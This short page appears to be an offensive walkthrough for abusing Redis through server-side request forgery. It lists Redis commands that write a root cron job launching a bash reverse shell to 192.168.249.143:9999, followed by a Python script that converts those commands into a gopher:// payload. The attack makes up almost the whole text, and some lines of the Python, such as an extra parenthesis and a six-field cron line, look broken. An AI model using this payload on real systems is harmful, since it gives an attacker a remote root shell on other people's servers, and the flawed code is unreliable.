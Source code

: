 ### Write scheduled tasks with Redis
Operation steps:
 - The command to construct `Redis` is as follows:

```bash
flushall
set ssrf '\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.249.143/9999 0>&1\n\n'
config set dir /var/spool/cron/
config set dbfilename root
save
```

 - Use Python to convert the Redis command above to the Gopher protocol format:

```python
import urllib

protocol = "gopher://"
ip = "192.168.249.145"
port = "6379"
passwd = ""
reverse_ip = "192.168.249.143"
reverse_port="9999"

cron = "\n\n\n\n*/1 * * * * * bash -i >& /dev/tcp/%s/%s 0>&1\n\n\n\n\n" % (reverse_ip, reverse_port)
filename = "root"
path = "/var/spool/cron"

cmd = ["flushall",
	 "set ssrf {}".format(cron.replace(" ", "${IFS}")),
	 "config set dir {}".format(path),
	 "config set dbfilename {}".format(filename),
	 "save"
	]
if passwd:
	cmd.insert(0, "AUTH {}".format(passwd))

payload = protocol + ip + ":" + port + "/_"

def redis_format(arr):
	CRLF = "\r\n"
	redis_arr = arr.split(" ")
	cmd = ""
	cmd += "*" + str(len(redis_arr))
	for x in redis_arr:
		cmd += CRLF + "$" + str(len((x.replace("${IFS}", " "))))) + CRLF + x.replace("${IFS}", " "))
	cmd += CRLF
	return cmd

if __name__=="__main__":
	for x in cmd:
		payload += urllib.quote(redis_format(x))
	print payload
```
